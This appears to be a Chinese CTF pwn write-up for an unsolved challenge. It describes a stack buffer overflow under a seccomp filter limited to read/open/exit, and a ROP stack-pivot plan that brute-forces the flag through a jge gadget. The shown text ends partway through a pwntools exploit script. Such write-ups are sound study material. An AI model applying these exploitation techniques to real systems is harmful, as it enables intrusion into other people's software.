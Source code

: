 


## message

这题0解，Orz..

上来先是一个rc6.

漏洞出在:

![5d00d889c4f2253700](https://i.loli.net/2019/06/12/5d00d889c4f2253700.png)

![5d00d8a700a7263890](https://i.loli.net/2019/06/12/5d00d8a700a7263890.png)

写入0x80字节，buf距离栈底只有40字节，妥妥的溢出。

程序write等功能是通过syscall来调用的。

用了seccomp来限制系统调用号只能为`0,2,0x3c`即`read,open,exit`，也就限制了能用的rop。



提示爆破

rop，通过read和pop rsp等一些gadgets做栈迁移。open打开flag文件，使用read将flag值读到bss上，利用程序中jge这个gadget来对两个值进行比较从而达到爆破flag的目的。



exp:

```python
#!/usr/bin/env python
# -*- coding=utf8 -*-
"""
# Author: le3d1ng
# Created Time : 2019年06月11日 星期二 19时43分01秒
# File Name: exp.py
# Description:
"""
from pwn import *

#io = process('./pwn')

#context.log_level = 'debug'
context.terminal = ['terminator' , '-x' , 'sh' , '-c']

def debug():
	gdb.attach(io)
	io.interactive()

def login():
	io.sendlineafter('5.quit\n','0')
	io.sendlineafter('Username:','root')
	io.sendlineafter('Password:','youknowtoomuch')
def mes(c):
	io.sendlineafter('5.quit\n','3')
	io.sendafter('message\n',c)

'''
%rax	System call	%rdi	        %rsi	        %rdx	       
0	sys_read	fd	        char *buf	size_t count		
2	sys_open	*filename	int flags	int mode


0000000000400A46 ; __unwind {
.text:0000000000400A46                 mov     rsi, rdi        ; buf
.text:0000000000400A49                 mov     rax, 0
.text:0000000000400A50                 mov     rdi, 0          ; fd
```